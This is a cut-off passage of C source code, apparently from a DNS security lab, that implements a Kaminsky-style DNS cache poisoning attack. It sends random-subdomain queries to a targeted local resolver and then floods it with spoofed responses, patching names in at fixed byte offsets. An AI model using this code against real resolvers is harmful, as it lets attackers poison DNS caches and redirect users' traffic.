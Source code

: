 ```c
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);


int main()
{
  long i = 0;

  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("Query.bin", "rb");
  if (!f_req) {
     perror("Can't open 'Query.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("Reply.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'Reply.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";
  unsigned short transaction_id = 0;
  while (1) {
    

    // Generate a random name with length 5
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];
	printf("attempt #%ld. request is [%s.example.com], transaction ID is: [%hu]\n", 
	     ++i, name, transaction_id);


    //##################################################################
    /* Step 1. Send a DNS request to the targeted local DNS server
              This will trigger it to send out DNS queries */
    memcpy(ip_req+41,name,5);               //偏移量为41
    send_raw_packet(ip_req, n_req);
   


    // Step 2. Send spoofed responses to the targeted local DNS server.
    memcpy(ip_resp+41,name,5);               //xxxxx 两个域名偏移量为 41 和64
    memcpy(ip_resp+64,name,5);
	
    for(int i=0;i<100;i++)
	{
```